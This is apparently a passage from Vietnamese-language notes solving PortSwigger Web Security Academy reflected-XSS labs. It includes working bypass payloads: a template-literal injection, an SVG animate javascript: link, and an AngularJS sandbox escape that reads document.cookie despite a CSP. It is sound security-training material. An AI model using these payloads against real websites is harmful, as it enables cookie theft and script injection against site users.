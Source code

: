 - Và tôi đã đưa nó vào website :

![](./img_xss/xss-24-3.png)

>### **Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped**

![](./img_xss/xss-25-1.png)

- Như bạn đã thấy source script sử sụng "``". Vậy chúng ta hãy sử dụng `${alert(1)}` và chúng ta đã vượt qua được thử thách.

>### **Reflected XSS with event handlers and href attributes blocked**

- Đối với bài tôi sẽ thực hiện bruteforce để xem tags html nào được chấp thuận.Thì tôi thấy những thẻ sau được chấp thuận.

![](./img_xss/xss-26-1.png)

- Từ đó, tôi đã viết script như sau:

```html
<svg><a><animate attributeName="href" values="javascript:alert(1)"></animate><text x="20" y="20">Click me</text></a>'</svg>
```

>### **Reflected XSS in a JavaScript URL with some characters blocked**

- Chú ý : [Tham khảo](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-url-some-characters-blocked)

>### **Reflected XSS with AngularJS sandbox escape without strings**

- [Hiểu rõ DOM based AngularJS sandbox escapes](https://portswigger.net/research/dom-based-angularjs-sandbox-escapes)

>### **Reflected XSS with AngularJS sandbox escape and CSP**

```js
<script>
location='https://0a4800b20490ca07c1c43af5008f00df.web-security-academy.net/?search=%3Cinput%20id=x%20ng-focus=$event.composedPath()|orderBy:%27(z=alert)(document.cookie)%27%3E#x';
</script>
```
